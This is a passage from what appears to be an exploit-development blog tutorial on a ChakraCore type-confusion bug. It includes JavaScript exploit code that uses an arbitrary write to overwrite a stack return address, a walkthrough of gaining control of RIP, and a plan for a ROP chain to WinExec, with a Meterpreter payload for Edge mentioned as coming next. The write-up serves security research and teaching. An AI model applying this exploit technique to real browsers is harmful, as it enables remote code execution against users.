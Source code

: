 ```javascript
        if ((tempContents[0] == retAddr[0]) && (tempContents[1] == retAddr[1]))
        {
            // print update
            print("[+] Found the target return address on the stack!");

            // stackLeak+counter will now contain the stack address which contains the target return address
            // We want to use our arbitrary write primitive to overwrite this stack address with our own value
            print("[+] Target return address: 0x" + hex(stackLeak[0]+counter) + hex(stackLeak[1]));

            // Break out of the loop
            break;
        }

        // Increment the counter if we didn't find our target return address
        counter += 0x8;
    }

    // When execution reaches here, stackLeak+counter contains the stack address with the return address we want to overwrite
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
}

main();
```

Let's run this updated script in the debugger directly, without any breakpoints.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion91.png" alt="">

After running our exploit, we can see we encounter an access violation! We can see a `ret` instruction is attempting to be executed, which is attempting to return execution to the `ret` address we have overwritten! This is likely a result of our `JsRun` function invoking a function or functions which eventually return execution to the `ret` address of our `JsRun` function which we overwrote. If we take a look at the stack, we can see the culprit of our access violation - ChakraCore is trying to return into the address `0x4141414141414141` - an address which we control! This means we have successfully controlled program execution and RIP!

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion92.png" alt="">

All there is now to do is write a ROP chain to the stack and overwrite RIP with our first ROP gadget, which will call `WinExec` to spawn `calc.exe`

Code Execution
---

With complete stack control via our arbitrary write primitive plus stack leak, and with control-flow hijacking available to us via a return address overwrite - we now have the ability to induce a ROP payload. This is, of course, due to the advent of DEP. Since we know where the stack is at, we can use our first ROP gadget in order to overwrite the return address we previously overwrote with `0x4141414141414141`. We can use the [rp++](https://github.com/0vercl0k/rp) utility in order to parse the `.text` section of `chakracore.dll` for any useful ROP gadgets. Our goal (for this part of the blog series) will be to invoke `WinExec`. Note that this won't be possible in Microsoft Edge (which we will exploit in part three) due to the mitigation of no child processes in Edge. We will opt for a Meterpreter payload for our Edge exploit, which comes in the form of a reflective DLL to avoid spawning a new process. However, since CharkaCore doesn't have these constraints, let's parse `chakracore.dll` for ROP gadgets and then take a look at the `WinExec` prototype. 
